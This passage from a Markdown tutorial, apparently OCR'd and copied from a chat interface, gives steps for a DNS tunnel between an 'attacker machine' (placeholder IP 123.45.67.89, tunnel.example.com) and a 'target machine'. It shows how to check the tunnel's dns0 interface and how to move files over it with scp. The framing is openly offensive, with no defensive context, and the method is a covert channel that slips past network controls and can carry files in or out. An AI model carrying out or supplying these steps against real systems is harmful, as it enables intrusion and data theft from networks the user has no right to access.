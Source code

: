     Here:
    
    - `123.45.67.89` is the public IP address of your attacker machine where the DNS tunneling server is running.
    - `tunnel.example.com` is the subdomain you set up for DNS tunneling.
    
    This will initiate a connection to the DNS tunneling server on your attacker machine, creating a virtual network interface on the target machine.
    
    ### **2.3 Verify Connection**
    
    Once the connection is established, a virtual network interface (like `dns0`) should be created on the target machine. This interface will have an internal IP, such as `10.0.0.2`.
    
    Run the following command on the target machine to verify the virtual interface and IP address:
    
    ```bash
    bash
    Copy code
    ifconfig dns0
    
    ```
    
    The output should show something like:
    
    ```bash
    dns0      Link encap:UNSPEC  HWaddr ...
              inet addr:10.0.0.2  P-t-P:10.0.0.1 Mask:255.255.255.0
              ...
    
    ```
    
    ---
    
    ### **Step 3: Transfer Files Over the DNS Tunnel**
    
    Now that the DNS tunnel is established, you can transfer files from the attacker machine to the target or vice versa.
    
    ### **3.1 On the Attacker Machine**
    
    You can use `scp` or other tools over the DNS tunnel to transfer files. Here’s an example of transferring a file using `scp`:
    
    ```bash
    bash
    Copy code
    scp -P 22 /path/to/localfile user@10.0.0.2:/path/to/remotefile
    
    ```
    
    Here:
    
    - `10.0.0.2` is the virtual IP address of the target machine (inside the tunnel).
    - `/path/to/localfile` is the path of the file you want to transfer on your attacker machine.
    - `/path/to/remotefile` is the destination path on the target machine.
    
    ---
    